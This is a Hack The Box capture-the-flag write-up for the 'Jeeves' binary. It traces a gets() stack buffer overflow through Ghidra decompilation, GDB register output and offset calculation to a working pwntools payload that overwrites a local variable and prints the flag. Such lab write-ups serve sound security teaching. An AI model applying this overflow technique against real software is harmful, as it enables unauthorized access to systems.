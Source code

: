 # HTB/Track/Binexp/Jeeves
Given a binary that asks for your name, then prints it out.

## Static analysis

Decompilation of the main function in Ghidra shows that the method for taking user input is `gets()`.

```c
undefined8 main(void)

{
  char local_48 [44];
  int local_1c;
  void *local_18;
  int local_c;
  
  local_c = -0x21523f2d;
  printf("Hello, good sir!\nMay I have your name? ");
  gets(local_48);
  printf("Hello %s, hope you have a good day!\n",local_48);
  if (local_c == 0x1337bab3) {    // [1]
    local_18 = malloc(0x100);
    local_1c = open("flag.txt",0);
    read(local_1c,local_18,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",local_18);
    close(local_1c);
  }
  return 0;
}
```
### Vulnerability

`gets()` is an insecure function as it carries on writing beyond the bounds of the variable's allocated buffer. This means it is possible to overwrite other parts of the stack.

At marker [1] in the above code, an if statement is checking whether the value of `local_c` is `0x1337bab3`. If true, allocates 100 bytes to a section of memory and returns a pointer with `malloc()`, and then sets the variable local_1c to the flag.txt file, which is then read into the allocated memory and printed.

The `gets()` function usage enables the possibility of stack corruption, specifically to overwrite the contents of `local_c`, which allows us to access the flag printing functionality.

### Test Input

`msf-pattern_create -l 72` may suffice in length.

```bash
└─$ msf-pattern_create -l 72        
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3
```
A Python exploit template is then created for the binary using pwntools:

```bash
└─$ pwn template --host 300.300.300.300 --port 1234 ./jeeves >> solution.py
```
The exploit is modified to deliver the padding string as input to the binary on execution:
```python
io = start()

padding = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3"
io.sendline(padding)

io.interactive()
```
## Dynamic Analysis
Dynamic analysis of the binary can then be done locally using the LOCAL and GDB parameters with the exploit script, respectively.

`./solution.py LOCAL GDB`

```bash
Temporary breakpoint 1, 0x00005650bfc111f1 in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
(gdb) i r
rax            0x0                 0
rbx            0x7fffcbaf0438      140736610632760
rcx            0x0                 0
rdx            0x0                 0
rsi            0x5650bfc582a0      94904814764704
rdi            0x7fffcbaefd80      140736610631040
rbp            0x3363413263413163  0x3363413263413163
rsp            0x7fffcbaf0338      0x7fffcbaf0338
r8             0x5650bfc582c4      94904814764740
r9             0x7f48144515c0      139947554444736
r10            0x0                 0
r11            0x202               514
r12            0x0                 0
r13            0x7fffcbaf0448      140736610632776
r14            0x0                 0
r15            0x7f4814515020      139947555246112
rip            0x0                 0x0
eflags         0x10216             [ PF AF IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
```
## Locating local_c
The contents of rbp were checked with `msf-pattern_offset` to determine the offset of rbp.

```bash
└─$ msf-pattern_offset -q 0x3363413263413163                                   
[*] Exact match at offset 64
```
As the `rbp` register comes after the local variables on the stack, some padding will need to be removed so that `local_c` can be overwritten with the correct value, instead of the padding. Therefore 60 bytes of padding will need to be used, followed by `0x1337bab3` in little endian to match the endianness of the system.

## Exploitation

### Final payload
```python
io = start()
padding = b"A"*60
leetbabe = p32(0x1337bab3,endian="little")
io.sendline(padding+leetbabe)
io.interactive()
```

### Flag output

```bashtxt
[*] Switching to interactive mode
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb3\xba7\x13 hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: [flag]
```